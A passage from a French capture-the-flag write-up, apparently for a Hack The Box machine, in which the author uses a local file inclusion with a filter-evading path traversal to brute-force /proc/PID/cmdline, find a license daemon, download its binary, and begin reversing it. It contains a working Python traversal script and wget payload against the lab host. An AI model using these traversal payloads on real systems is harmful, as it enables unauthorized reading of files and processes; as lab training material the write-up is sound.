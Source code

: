 ```php
    socket_write($socket, pack("N", $license_size));
    socket_write($socket, $license);

    socket_shutdown($socket);
    socket_close($socket);
}
?>
```

à partir de là je commence à chercher toute sortes d'exploit pour les sockets ou quoi enfin bref des betises.
Et à ce moment là, le fait d'avoir galéré à vouloir reverse-shell me fait avoir une idée. J'ai beaucoup touché au /proc de en essayant de reverse shell et j'me dis "et si je bruteforçai les pid" !
A ce moment là j'étais desespéré vraiment j'avais 0 espoirs dans ce que je faisais. Je fais donc un ptit script python pour ça :

```py
import requests

def brute_pid():
	pid_max = int(requests.get("http://10.10.11.154/index.php?page=js/..../.././/..../.././/..../.././/..../.././/..../.././/proc/sys/kernel/pid_max").text)  # récuperer le pid maximum
	print(f"[+] pid max is {pid_max}")
	for pid in range(0, pid_max):
		r = requests.get(f"http://10.10.11.154/index.php?page=js/..../.././/..../.././/..../.././/..../.././/..../.././/proc/{pid}/cmdline")
		if r.text:
			print(f"[+] process found : {pid} ->" + r.text.replace('\x00', ' '))

if __name__ == "__main__":
	try:
		brute_pid()
	except KeyboardInterrupt:
		exit()
```

Ici on va donc faire une première requete afin de récuperer le pid maximum, et ensuite on va les bruteforce un part un et récuperer le contenu de /proc/pid/cmdline qui contient les arguments passé en ligne de commande pour lancer le process.

```
root@debian:~# python3 brute_pid.py 
[+] pid max is 4194304
[+] process found : 399 -> /usr/bin/activate_license 1337
[+] process found : 573 -> nginx: worker process
[+] process found : 574 -> nginx: worker process
```

Super intéressant ! On peut donc récuperer notre executable grâce à notre lfi

```wget http://10.10.11.154/index.php?page=js/..../.././/..../.././/..../.././/..../.././/..../.././/usr/bin/activate_license```

## REVERSE

Je commence donc à reverse le binaire, et j'me dis "ahaha imagine c'est du pwn"

![IMAGE CLOWN](./images/clown.gif)

Je continue donc de reverse, je trouve le nom d'une base de donnée sqlite dans laquelle sont stocké les clés d'activation.

![image reverse](./images/sqlite_filename.png)

après avoir bruteforce un peu les répertoires je trouve la base de donnée je l'a download et je trouve absolument rien à l'intérieur.

Donc dépité je reviens à mon binaire.
```